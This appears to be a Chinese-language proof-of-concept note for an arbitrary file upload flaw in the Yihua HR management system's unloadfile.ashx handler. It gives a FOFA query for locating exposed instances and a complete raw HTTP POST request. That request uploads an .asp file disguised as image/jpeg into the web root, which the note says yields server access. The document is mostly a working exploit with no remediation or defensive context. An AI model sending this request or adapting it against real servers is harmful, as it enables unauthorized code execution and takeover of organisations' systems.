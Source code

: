 ## 亿华人力资源管理系统unloadfile存在任意文件上传漏洞

亿华人力资源管理系统unloadfile存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

## fofa

```
body="亿华人力资源管理系统"
```

## poc

```yaml
POST /handle/unloadfile.ashx HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------21909179191068471382830692394
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------21909179191068471382830692394
Content-Disposition: form-data; name="file"; filename="stc.asp"
Content-Type: image/jpeg

test
-----------------------------21909179191068471382830692394
Content-Disposition: form-data; name="action"

unloadfile
-----------------------------21909179191068471382830692394
Content-Disposition: form-data; name="filepath"

./
-----------------------------21909179191068471382830692394—
```

![image-20240707203045130](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407072030195.png)